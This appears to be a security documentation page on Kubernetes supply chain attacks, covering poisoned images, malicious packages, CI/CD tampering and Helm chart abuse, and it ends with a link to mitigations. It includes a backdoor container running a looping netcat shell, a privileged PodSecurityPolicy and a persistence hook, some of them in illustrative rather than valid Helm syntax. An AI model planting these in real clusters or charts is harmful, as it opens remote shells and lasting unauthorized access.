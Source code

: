 ```yaml
---
sidebar_position: 5
title: "Supply Chain Attacks"
description: "How attackers compromise container images, dependencies, CI/CD pipelines, and Helm charts to infiltrate Kubernetes clusters."
---
```


# Supply Chain Attacks

A **supply chain attack** in Kubernetes involves **compromising container images, software dependencies, CI/CD pipelines, or Helm charts** to inject malicious code into workloads. Attackers use these vulnerabilities to **gain initial access, escalate privileges, and exfiltrate sensitive data**.

---

## Exploitation Steps: Compromising the Software Supply Chain

An attacker injects malicious code into a Kubernetes deployment by exploiting weaknesses in the container build process.

### Step 1: Poison a Public Image

The attacker publishes a **malicious container image** to a public registry:

```bash
docker build -t attacker/malicious-app .
docker push docker.io/attacker/malicious-app
```

If an organization unknowingly pulls this image, it introduces malicious code into production.

### Step 2: Exploit Weak Image Verification

An organization deploys a container without verifying its source:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: vulnerable-app
spec:
  template:
    spec:
      containers:
        - name: app
          image: docker.io/attacker/malicious-app
```

Since no image signing or verification is enforced, the compromised container runs in the cluster.

### Step 3: Inject Malicious Dependencies

If the CI/CD pipeline **does not validate third-party dependencies**, the attacker injects a malicious package into a widely used library.

Example of an attacker publishing a compromised package:

```bash
npm publish compromised-library
```

Developers unknowingly include this package in their applications, allowing remote code execution.

### Step 4: Compromise CI/CD Pipeline

The attacker exploits misconfigured CI/CD secrets to modify Kubernetes manifests:

```bash
kubectl apply -f attacker-modified-deployment.yaml
```

By injecting malicious configurations, the attacker gains persistent access to the cluster.

---

## Exploitation Steps: Deploying a Malicious Helm Chart

An attacker manipulates Helm charts to introduce **unauthorized workloads, privilege escalation, or backdoors** into a Kubernetes cluster.

### Step 1: Publish a Malicious Helm Chart

The attacker creates a Helm chart containing **hidden malicious configurations**:

```yaml
apiVersion: v2
name: malicious-app
version: 1.0.0
description: "A vulnerable Helm chart"
```

**Example of Malicious Workload in Values.yaml**:

```yaml
containers:
  - name: backdoor-container
    image: attacker/malicious-image
    securityContext:
      privileged: true
    command: ["/bin/sh", "-c"]
    args: ["while true; do nc -lvp 9001 -e /bin/sh; done"]
```

The attacker **uploads the chart** to a public Helm repository:

```bash
helm package malicious-app
helm push malicious-app-1.0.0.tgz oci://public-helm-repo
```

### Step 2: Exploit Unverified Helm Chart Usage

An unsuspecting user installs the chart **without verifying its integrity**:

```bash
helm repo add untrusted-repo oci://public-helm-repo
helm install vulnerable-app untrusted-repo/malicious-app
```

The **malicious container is deployed**, providing the attacker with a **reverse shell**.

### Step 3: Escalate Privileges Using a Malicious PodSecurityPolicy

If **Pod Security Policies (PSP) or admission controls** are not enforced, the attacker modifies Helm templates to allow privilege escalation:

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: privileged-psp
spec:
  privileged: true
  runAsUser:
    rule: RunAsAny
  seLinux:
    rule: RunAsAny
```

```bash
helm install --set securityPolicy.privileged=true exploit-app
```

The attack **bypasses Kubernetes security policies**, allowing **root access** on worker nodes.

### Step 4: Persist in the Cluster

The attacker modifies **Helm hooks** to maintain persistence after deletion:

```yaml
hooks:
  post-delete:
    - exec:
        command:
          [
            "/bin/sh",
            "-c",
            "while true; do sleep 60; kubectl apply -f /tmp/hidden-backdoor.yaml; done",
          ]
```

Even if the Helm release is removed:

```bash
helm uninstall exploit-app
```

The malicious workload **remains active**, ensuring long-term access.

### Result

The attacker has **infiltrated the Kubernetes environment** via a compromised supply chain, enabling **persistent access, privilege escalation, and data theft**.

---

## Mitigation Steps

To protect against **supply chain attacks**, follow the security best practices outlined in:

➡ **[Securing the Kubernetes Supply Chain](/docs/best_practices/supply_chain_mitigation)**

This guide covers techniques such as **container image signing, vulnerability scanning, CI/CD hardening, Helm security enforcement, and dependency verification** to prevent attackers from compromising the software supply chain.
